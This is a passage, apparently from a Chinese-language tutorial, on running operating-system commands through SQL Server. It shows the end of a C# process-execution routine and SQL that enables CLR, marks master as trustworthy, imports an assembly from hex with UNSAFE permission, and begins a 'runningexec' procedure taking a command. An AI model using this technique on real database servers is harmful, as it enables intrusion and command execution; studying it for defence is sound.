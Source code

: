 ```c
            process.WaitForExit();
        }
        catch (Exception e)
        {
            SqlContext.Pipe.Send(e.Message);
        }
        if (process.ExitCode == 0)
        {
            SqlContext.Pipe.Send(stdOutput.ToString());
        }
        else
        {
            var message = new StringBuilder();
            if (!string.IsNullOrEmpty(stdError))
            {
                message.AppendLine(stdError);
            }
            if (stdOutput.Length != 0)
            {
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            }
            SqlContext.Pipe.Send(bin + command + " finished with exit code = " + process.ExitCode + ": " + message);
        }
        return stdOutput.ToString();
    }
}
```
### 获取sql语句
在生成的sql文件中得到字节流的创建语句
```sql
CREATE ASSEMBLY [CLRS]
    AUTHORIZATION [dbo]
    FROM 0x4D5A9000030000...
    ...
    WITH PERMISSION_SET = UNSAFE;
```
### 开启CLR配置
```sql
//开启CLR
sp_configure 'clr enabled', 1
GO
RECONFIGURE
GO
//将数据库标记为可信
ALTER DATABASE master SET TRUSTWORTHY ON;
```
### 导入程序集
```sql
CREATE ASSEMBLY [CLRS]
    AUTHORIZATION [dbo]
    FROM 0x4D5A90000300000004000000FFFF0000B8000000000000004000000000000000000000000000000000000000000000000000000000020000008000000000000000000000
    ...
    ...
    WITH PERMISSION_SET = UNSAFE;
```
### 创建存储过程
```sql
CREATE PROCEDURE [dbo].[runningexec]
@cmd NVARCHAR (MAX)
```